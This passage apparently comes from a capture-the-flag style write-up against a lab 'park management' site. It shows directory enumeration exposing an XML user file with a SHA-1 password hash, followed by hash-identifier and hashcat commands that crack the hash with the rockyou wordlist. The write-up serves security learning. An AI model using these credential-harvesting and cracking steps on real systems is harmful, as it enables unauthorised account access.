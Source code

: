   We find a number of interesting directories. Navigating to the admin directory presents a login page for a park management site, but no useful information on a possible default credential or exploit is presented here. Further enumeration of the data folder, we find a users directory with a single xml file which contains the following user information:

```
<item>
<USR>coolranger</USR>
<NAME>Cool Ranger</NAME>
<PWD>08802d707979e4d796a2538bed8cd67ef20f7c91</PWD>
<EMAIL>coolranger@parkmanagement.com</EMAIL>
<HTMLEDITOR>1</HTMLEDITOR>
<TIMEZONE/>
<LANG>en_US</LANG>
</item>
```

According to the hash identifier tool, this is most likely a SHA-1 hash.

```
┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]
└─# hash-identifier                                          
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------
 HASH: 08802d707979e4d796a2538bed8cd67ef20f7c91

Possible Hashs:
[+] SHA-1
[+] MySQL5 - SHA-1(SHA-1($pass))

```
## Exploitation

To begin the exploitation phase, we first crack the discovered hash with hascat.

```
┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]
└─# echo "08802d707979e4d796a2538bed8cd67ef20f7c91" > hash
                                                                                                                                         
┌──(root㉿kali)-[/home/kali/Documents/UGC/ParkMgmt]
└─# hashcat -a 0 -m 100 hash /usr/share/wordlists/rockyou.txt  

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

08802d707979e4d796a2538bed8cd67ef20f7c91:ranger1          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 100 (SHA1)
Hash.Target......: 08802d707979e4d796a2538bed8cd67ef20f7c91
Time.Started.....: Tue May  7 06:15:53 2024 (0 secs)
```